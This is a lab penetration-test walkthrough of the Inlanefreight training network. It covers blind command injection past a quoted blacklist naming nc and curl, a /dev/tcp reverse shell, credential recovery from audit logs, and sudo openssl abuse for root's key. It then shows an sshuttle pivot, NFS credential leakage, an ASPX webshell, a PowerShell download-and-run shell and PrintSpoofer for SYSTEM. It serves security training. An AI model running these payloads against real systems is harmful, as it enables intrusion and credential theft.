

**Flag 3 down.**

## 8. `monitoring.inlanefreight.local` — Blind OS Command Injection

```
http://monitoring.inlanefreight.local/
```



No credentials, so straight to directory brute-forcing:



That turned up `ping.php` — loaded on its own it returned a completely blank page:



A page named `ping.php` returning nothing strongly suggests it's waiting for an `ip` parameter it can shell out to. I fuzzed for the parameter name:





With `ip` confirmed, the obvious next step was classic command injection — `127.0.0.1; id`, `127.0.0.1 | id`, `127.0.0.1 && id`, and so on. All of them failed, which meant there was a filter in play. After a lot of trial and error with different separators and encodings, this payload got through:

```
http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0abash%3C%3C%3C$(base64%09-d%3C%3C%3CaWQ=)
```



```
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

To understand exactly what I was bypassing — rather than keep guessing — I used the same injection technique to read the page's own source over HTTP, base64-encoding the `cat` command so the output could survive being echoed back in the response:





That explained everything. The filter blacklists on two layers:

```php
$operators = ['&', '|', ';', '\\', '/', ' '];
$words = ['whoami','echo','rm','mv','cp','id','curl','wget','cd','sudo',
          'mkdir','man','history','ln','grep','pwd','file','find','kill',
          'ps','uname','hostname','date','uptime','lsof','ifconfig',
          'ipconfig','ip','tail','netstat','tar','apt','ssh','scp',
          'less','more','awk','head','sed','nc','netcat'];
```

Both the character blacklist (no shell operators, **no space, no forward slash**) and the word blacklist (every obvious enumeration command) are blocked via simple `strpos()` substring checks. The bypass that worked combines a few tricks at once:

- **Base64-encode the real command** so none of the blacklisted words ever appear in the request as plaintext.
- **`<<<` here-strings** instead of pipes, to avoid the `|` character entirely.
- **`%09` (tab) instead of a literal space**, since space is on the blacklist but whitespace-insensitive shell syntax doesn't care which whitespace character you use.
- **`%0a` (newline)** to break out of the `ping` command and start a new statement.

```
bash<<<$(base64 -d<<<<base64-blob>)
```

Confirmed the injection still worked identically after reading the source:



From there, getting a full reverse shell was just a matter of base64-encoding a bash reverse-shell one-liner instead of `id`:

```bash
echo -n 'bash -i >& /dev/tcp/10.10.14.135/4444 0>&1' | base64
```



```
http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0abash%3C%3C%3C$(base64%09-d%3C%3C%3C<payload>)
```

```bash
nc -nlvp 4444
```



Shell on host #3, as `webdev` on a box called **`dmz01`** — the first real hint that this DMZ host also bridges into the internal network.

---

## 9. Privilege Escalation on `dmz01` — From `webdev` to `root`

First stop, `id`:



```
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

Membership in the `adm` group grants read access to system logs in `/var/log` — including, on this box, `auditd`'s TTY command logging. `auditd` records every keystroke typed in an audited shell, hex-encoded in `type=TTY` entries:

```bash
cat /var/log/audit/audit.log | grep "type=TTY"
```



Decoding the hex-encoded `data=` fields reconstructed a command someone had typed:

```
sudo su srvadm
ILFreightnixadm!
```

A set of plaintext credentials, sitting in a log file, because someone's terminal session got audited. Since SSH is open on this box, I tried them directly:

```bash
ssh srvadm@10.129.76.92
```



Login succeeded. A quick `sudo -l` showed `srvadm` can run `openssl` as root with no password — a textbook [GTFOBins](https://gtfobins.github.io/gtfobins/openssl/) case. `openssl enc` can be abused as an arbitrary file-read (and write) primitive when run with elevated privileges, since it just encodes/decodes whatever file path it's pointed at:

```bash
sudo openssl enc -in /root/.ssh/id_rsa
```



That dumped root's private key straight to the terminal. Saved it locally, fixed the permissions, and:

```bash
ssh -i id_rsa root@10.129.76.92
```

**Root on `dmz01`.**

## 10. Pivoting Into the Internal Network

With root, a quick look at the network interfaces showed a second NIC that wasn't visible from the outside:



```
ens192: inet 172.16.8.120  netmask 255.255.0.0
```

`dmz01` sits in two networks at once — exactly the kind of dual-homed box that makes a DMZ a DMZ. A quick ping sweep mapped out what else lives on that segment:

```bash
for i in $(seq 1 254); do ping -c1 172.16.8.$i | grep "bytes from" & done
```

```
172.16.8.3    — alive
172.16.8.20   — alive
172.16.8.50   — alive
172.16.8.120  — dmz01 itself
```

To actually enumerate that internal range from my attack host, I tunneled through `dmz01` with `sshuttle`, using the root key I'd just recovered:

```bash
sshuttle -e 'ssh -i id_rsa' -r root@10.129.76.92 172.16.8.0/24
```



With the tunnel up, every tool on my attack box could reach the internal network as if I were sitting inside the DMZ. A scan of the three live hosts gave a clear picture of the internal estate:

```bash
nmap -sV -A -Pn 172.16.8.3 172.16.8.20 172.16.8.50
```

| Host | Role | Notable ports |
|---|---|---|
| **172.16.8.3** | Domain Controller | 53, 88 (Kerberos), 389 (LDAP), 445 (SMB), 5985 (WinRM) |
| **172.16.8.20** | Windows + NFS | 80 (HTTP), 2049 (NFS), 3389 (RDP), 5985 (WinRM) |
| **172.16.8.50** | Windows workstation/server | 445 (SMB), 3389 (RDP), 8080 (web app) |
| **172.16.8.120** | `dmz01` (already owned) | FTP, SSH, mail, DNS, HTTP |

Now there's a domain in play.

---

## 11. `172.16.8.20` — NFS Misconfiguration → Credential Leak

The first thing that caught my eye on `.20` was the exposed NFS port. NFS exports with weak access controls are a reliable way to read files you shouldn't be able to:

```bash
showmount -e 172.16.8.20
```


```
Export list for 172.16.8.20:
/DEV01 (everyone)
```

`everyone` meant no host-based restriction at all. Mounted it and went looking for anything interesting:

```bash
sudo mkdir -p /mnt/nfs_target
sudo mount -t nfs 172.16.8.20:/DEV01 /mnt/nfs_target -o nolock,vers=3
cd /mnt/nfs_target
grep -r password
```



That pointed straight at `DNN/web.config` — a **DotNetNuke** (DNN) content management system configuration file:

```bash
cat DNN/web.config
```



```xml
<username>Administrator</username>
<password>
    <value>D0tn31Nuk3R0ck$$@123</value>
</password>
```

Plaintext admin credentials for a CMS, leaked through a misconfigured NFS export mounted anonymously.

## 12. DNN Admin Access → Webshell → System Shell

Browsing to `http://172.16.8.20/` confirmed it's running **DNN (DotNetNuke)**, and the recovered credentials logged straight into the admin panel with full Administrator rights.

DNN doesn't allow `.aspx` uploads by default for obvious reasons, but an Administrator account can change that from the file-manager settings. I added `.aspx` to the allowed extensions list:



...then uploaded a public ASP.NET webshell and browsed to it. It dropped me into a shell running in the context of the web application, already flagging a privilege that would matter a lot in a minute:



`systeminfo` confirmed the box and, more importantly, that it's domain-joined:

```
Host Name:    ACADEMY-AEN-DEV
OS Name:      Microsoft Windows Server 2019 Standard
OS Version:   10.0.17763
Domain:       INLANEFREIGHT.LOCAL
```

For a more usable shell than the webshell's command box, I pulled a PowerShell reverse shell through it:

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://172.16.8.120:8585/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.8.120 -Port 4444
```



```
Windows PowerShell running as user ACADEMY-AEN-DEV$ on ACADEMY-AEN-DEV
```

Checking token privileges confirmed what the webshell had already hinted at — this context holds **`SeImpersonatePrivilege`**:



`SeImpersonatePrivilege` on a service account is a near-guaranteed path to SYSTEM via a Potato-family exploit. I pulled over `PrintSpoofer64.exe` and `nc.exe` and ran it:

```powershell
(New-Object Net.WebClient).DownloadFile('http://172.16.8.120:8585/nc.exe','C:\Users\Public\nc.exe')
(New-Object Net.WebClient).DownloadFile('http://172.16.8.120:8585/PrintSpoofer64.exe','C:\Users\Public\PrintSpoofer64.exe')
C:\Users\Public\PrintSpoofer64.exe -c "C:\Users\Public\nc.exe 172.16.8.120 1337 -e cmd"
```



```
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

And on the listener:

```bash
nc -nlvp 1337
```



```
Connection received on 172.16.8.20 51263
Microsoft Windows [Version 10.0.17763.107]
C:\Windows\system32>
```

PrintSpoofer coerces the local Print Spooler service into authenticating over a named pipe the attacker controls, then duplicates the resulting SYSTEM token to spawn a new process — so this shell is running as **`NT AUTHORITY\SYSTEM`** on the first internal DMZ host.

---

## Stopping Point for Part 1

That's where this part ends: a domain-joined box fully compromised, SYSTEM on `172.16.8.20`, and an internal network that's now wide open to enumerate from a position of trust.

**Quick recap of the chain:**

1. Anonymous FTP → first flag
2. DNS zone transfer → full subdomain map
3. SQL injection on `status` → DB dump
4. WordPress admin takeover on `ir` → RCE via theme editor
5. Reflected XSS on `support` → session hijack → flag
6. Blind OS command injection on `monitoring` → shell as `webdev`
7. Log-file credential leak (`adm` group) → `srvadm`
8. GTFOBins `openssl` sudo abuse → root on `dmz01`
9. Dual-homed box → pivot into `172.16.8.0/24` with `sshuttle`
10. NFS misconfiguration on `.20` → DNN admin creds
11. DNN admin → ASPX webshell
12. `SeImpersonatePrivilege` + PrintSpoofer → **SYSTEM**

**Part 2** picks up right here with Mimikatz, credential harvesting, ACL abuse to reset a user's password, and the push toward the domain controller. Stay tuned.

---

*This write-up documents a lab environment (Inlanefreight / `inlanefreight.local`) built for authorized security training. None of the techniques here should be used against systems you don't have explicit permission to test.*
